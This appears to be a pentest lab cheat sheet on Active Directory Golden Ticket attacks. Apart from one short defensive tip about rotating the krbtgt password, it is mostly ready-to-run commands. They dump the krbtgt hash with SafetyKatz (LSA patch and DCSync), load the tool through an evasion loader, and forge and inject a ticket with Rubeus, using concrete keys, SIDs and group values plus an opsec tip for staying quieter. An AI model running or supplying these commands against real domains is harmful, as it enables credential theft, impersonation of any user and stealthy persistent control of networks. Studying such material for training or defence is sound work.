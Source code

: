 # Golden Ticket  

Tags: #AD #Windows #Rubeus #Powershell #SafetyKatz 

```bash 
- A golden ticket is signed and encrypted by the hash of krbtgt account which makes it a valid TGT ticket.
- The krbtgt user hash could be used to impersonate any user with any privileges from even a non-domain machine.
- As a good practice, it is recommended to change the password of the krbtgt account twice as password history is maintained for the account.
```

## SafetyKatz

```powershell 
❯ C:\AD\Tools\SafetyKatz.exe '"lsadump::lsa /patch"'    # Execute mimikatz (variant) on DC as DA to get krbtgt hash 

❯ C:\Users\Public\Loader.exe -path http://127.0.0.1:8080/SafetyKatz.exe -args "lsadump::evasive-lsa /patch" "exit"       # Credential extraction 
 
❯ C:\AD\Tools\SafetyKatz.exe "lsadump::dcsync /user:dcorp\krbtgt" "exit"  # To use the DCSync feature for getting AES keys for krbtgt account, use this command with DA privileges 
```

## Rubeus 

```powershell 
# Use Rubeus to forge a Golden ticket with attributes similar to a normal TGT:
❯ C:\AD\Rubeus.exe golden /aes256:154cb6624b1d859f7080a6615adc488f09f92843879b3d914cbcb5a8c3cda848 /sid:S-1-5-21-719815819-3726368948-3917688648 /ldap /user:Administrator /printcmd

❯ C:\AD\Loader.exe -path C:\AD\Rubeus.exe -args evasive-golden /aes256:154cb6624b1d859f7080a6615adc488f09f92843879b3d914cbcb5a8c3cda848 /sid:S-1-5-21-719815819-3726368948-3917688648 /ldap /user:Administrator /printcmd

Notes:
	1. Above command generates the ticket forging command. Note that 3 LDAP queries are sent to the DC to retrieve the values:
		1. To retrieve flags for user specified in /user.
		2. To retrieve /groups, /pgid, /minpassage and /maxpassage
		3. To retrieve /netbios of the current domain
	2. If you have already enumerated the above values, manually specify as many you can in the forging command (a bit more opsec friendly).
```

```powershell 
# The Golden ticket forging command looks like this:
❯ C:\AD\Rubeus.exe golden /aes256:154CB6624B1D859F7080A6615ADC488F09F92843879B3D914CBCB5A8C3CDA848 /user:Administrator /id:500 /pgid:513 /domain:dollarcorp.moneycorp.local /sid:S-1-5-21-719815819-3726368948-3917688648 /pwdlastset:"11/11/2022 6:33:55 AM" /minpassage:1 /logoncount:2453 /netbios:dcorp /groups:544,512,520,513 /dc:DCORP-DC.dollarcorp.moneycorp.local /uac:NORMAL_ACCOUNT,DONT_EXPIRE_PASSWORD /ptt   # Inject the ticket in the current session 

❯ C:\AD\Loader.exe -path C:\AD\Rubeus.exe -args evasive-golden /aes256:154CB6624B1D859F7080A6615ADC488F09F92843879B3D914CBCB5A8C3CDA848 /user:Administrator /id:500 /pgid:513 /domain:dollarcorp.moneycorp.local /sid:S-1-5-21-719815819-3726368948-3917688648 /pwdlastset:"11/11/2022 6:33:55 AM" /minpassage:1 /logoncount:2453 /netbios:dcorp /groups:544,512,520,513 /dc:DCORP-DC.dollarcorp.moneycorp.local /uac:NORMAL_ACCOUNT,DONT_EXPIRE_PASSWORD /ptt  
```

[![Golden-Ticket-Rubeus.png | 900](https://i.postimg.cc/TwC7VQBy/Golden-Ticket-Rubeus.png)](https://postimg.cc/WFqwjmNj)
[![Golden-Ticket-Rubeus2.png | 900 ](https://i.postimg.cc/0jjtcDqV/Golden-Ticket-Rubeus2.png)](https://postimg.cc/p5NYd9rj)

[![Golden-Ticket.png](https://i.postimg.cc/6pM86Jv4/Golden-Ticket.png)](https://postimg.cc/5XF4prpf)